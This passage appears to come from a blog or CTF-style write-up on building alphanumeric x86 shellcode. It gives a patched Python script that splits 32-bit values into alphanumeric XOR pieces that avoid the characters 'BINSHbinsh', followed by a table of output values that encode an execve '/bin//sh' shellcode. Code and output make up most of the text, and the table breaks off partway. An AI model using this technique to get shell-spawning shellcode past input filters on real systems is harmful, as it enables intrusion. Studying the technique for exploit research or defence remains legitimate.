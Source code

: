 We cannot push 32/16-bit immediate value directly into stack, because the
opcode of the instruction is invaild. Also, the immediate value which pushed
into the stack is invalid, either. That kind Japanese provided a neat Python
script that automatically generates some valid values. The result of XORed of
the values is the original value we want to push into the stack. Then we can
XOR these value with the register to store the value we want. This Python
script only promises that the decomposite vaules are alphanumerics. In order to
exclude "BINSHbinsh" in the shellcode, that Python script must be patched to
meet the requirement.

```python
#!/usr/bin/env python
# decomposite.py
#
import sys
import struct

word = int(sys.argv[1], 16)

alnum = range(0x30, 0x3a) + range(0x41, 0x5b) + range(0x61, 0x7b)
allowed = [ i for i in alnum if chr(i) not in "BINSHbinsh" ]    # patch

chunk = struct.pack('<I', word)
x = ''
y = ''
z = ''

for c in map(ord, chunk):
    if c >= 0x80:
        z += '\xff'
        c ^= 0xff
    else:
        z += '\x00'
    for i in allowed:
        if i^c in allowed:
            x += chr(i)
            y += chr(i^c)
            break

print hex(struct.unpack('<I', x)[0])
print hex(struct.unpack('<I', y)[0])
print hex(struct.unpack('<I', z)[0])
```

With this handy script, we can get rid of many invalid characters.

```text
[origin]: 0x80cd0b42
0x30433230
0x4f713972
0xffff0000
[origin]: 0x8de18953
0x31443030
0x435a4663
0xffffff00
[origin]: 0x52e3896e
0x31443034
0x6358465a
0xffff00
[origin]: 0x69622f68
0x30304330
0x59526c58
0x0
[origin]: 0x68732f2f
0x30304343
```

[origin]: 0x6852d231
[1]: http://inaz2.hatenablog.com/entry/2014/07/11/004655
[2]: http://inaz2.hatenablog.com/entry/2014/07/13/025626
[3]: http://skypher.com/wiki/index.php?title=X86_alphanumeric_opcodes
[4]: http://www.c-jump.com/CIS77/CPU/x86/lecture.html#X77_0100_sib_byte_layout